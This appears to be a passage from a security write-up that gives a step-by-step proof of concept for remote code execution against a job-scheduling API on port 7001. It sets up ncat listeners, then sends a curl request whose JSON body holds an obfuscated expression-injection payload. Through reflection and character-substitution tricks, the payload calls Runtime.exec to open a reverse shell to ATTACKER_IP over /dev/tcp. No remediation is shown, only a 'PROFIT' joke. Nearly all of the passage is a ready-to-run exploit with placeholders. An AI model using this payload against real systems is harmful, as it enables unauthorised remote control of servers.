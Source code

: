 Step 4: Exploit and remediation

Step 4.1: PoC

To get a shell, you'll need a system with ports 5060, 2222 free(and allowed through firewall). Also DO NOT change the port numbers anywhere as they may interfere with payload logic

Replace the following texts-
- HOST_IP: with host IP Address or domain name
- ATTACKER_IP: with your IP Address or domain name

### Step 1
Now first get on 2 shells on your system and run-
```bash
ncat -k -l -p 5060
ncat -k -l -p 2222
```

### Step 2
Now run this curl request from anywhere and replace HOST_IP and ATTACKER_IP
```bash
    curl --location --request POST 'HOST_IP:7001/api/v3/jobs' \
    --header 'Content-Type: application/json' \
    --data-raw '{
        "container": {
            "softConstraints": {
                "constraints": {
                    "#{'\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''print(1);'\'').class.methods[3].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''java.lang.8untime.get9untime().exec(\" /bin/bash -c 'sh\</dev/tcp/ATTACKER_IP/5060\>/dev/tcp/ATTACKER_IP/2222' \")'\''.replace('\''8'\'', 82).replace('\''9'\'', 82))) + '\'''\''}": "lol"
                }
            }
        },
        "service": {
            "retryPolicy": {
                "immediate": {
                    "retries": 10
                }
            }
        }
    }'
```

### Step 3
Run any `sh` command into the `5060` ncat connection

### Step 4
???

### Step 5

#### PROFIT

![An innocent application getting pwned](images/pwn.png)